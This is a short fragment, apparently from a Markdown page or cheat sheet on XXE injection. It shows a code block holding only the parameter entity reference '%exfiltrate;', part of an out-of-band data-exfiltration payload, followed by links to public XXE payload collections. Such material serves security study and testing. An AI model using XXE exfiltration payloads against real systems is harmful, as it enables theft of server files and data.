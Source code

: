 ```xml
%exfiltrate;
```
### resources
[https://github.com/payloadbox/xxe-injection-payload-list](https://github.com/payloadbox/xxe-injection-payload-list) [](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE) Injection

